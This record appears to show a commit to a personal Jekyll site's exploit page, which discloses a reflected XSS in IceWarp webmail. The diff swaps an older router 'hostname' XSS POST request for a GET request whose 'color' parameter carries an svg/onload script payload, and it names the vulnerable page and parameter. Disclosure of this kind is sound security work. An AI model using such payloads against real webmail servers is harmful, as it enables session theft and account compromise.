

Before and after one commit to lutfumertceylan/mywebsite, a Jekyll site: the page built from _exploits/2020-01-27-IceWarp-Exploit-XSS.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-01-27-IceWarp-Exploit-XSS.md

```diff
--- a/_exploits/2020-01-27-IceWarp-Exploit-XSS.md
+++ b/_exploits/2020-01-27-IceWarp-Exploit-XSS.md
@@ -23,26 +23,22 @@ tags:
 
 <hr><br>
 
-**POST REQUEST :**
+**GET REQUEST :**
 
-POST /pages/connectionStatus/connectionStatus-hostEntry.cmd HTTP/1.1
-Host: 192.168.1.1
-User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0
+GET /webmail/?color="><svg/onload=alert("**XSS PAYLOAD**")> HTTP/1.1
+Host: **host**
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
 Accept-Encoding: gzip, deflate
-Referer: http://192.168.1.1/index.html
-Content-Type: application/x-www-form-urlencoded
-Content-Length: 79
-Cookie: SESSION=529313605
+Cookie: **cookie**
 Connection: close
 Upgrade-Insecure-Requests: 1
-action=edit&oldip=192.168.1.36&hosttype=&sessionKey=1997367832&**hostname**=**XSS PAYLOAD**
 
 **Vulnerable Page :**
-/pages/connectionStatus/connectionStatus-hostEntry.cmd
+/webmail/
 **Vulnerable Parameter :**
-hostname
+color
 
 
-Exploit DB : <a href="https://www.exploit-db.com/exploits/45236">45236</a>
+Exploit DB : <a href="https://www.exploit-db.com/exploits/"></a>
```
